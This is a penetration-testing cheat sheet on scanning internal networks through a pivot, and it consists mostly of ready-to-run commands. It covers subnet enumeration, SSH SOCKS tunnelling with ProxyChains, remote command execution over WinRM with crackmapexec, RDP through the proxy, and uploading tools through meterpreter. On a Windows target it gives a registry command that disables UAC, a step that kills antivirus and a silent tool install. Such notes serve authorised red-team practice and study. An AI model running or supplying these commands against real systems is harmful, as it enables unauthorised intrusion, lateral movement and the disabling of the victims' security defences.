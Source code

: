 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)    
  
## Subnet Enumeration Commands    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f         
Nmap scan through a dynamic SOCKS proxy (only -sT will work):    

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
Use WinRM through proxychains:    

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
RDP through ProxyChains:     

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      

## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
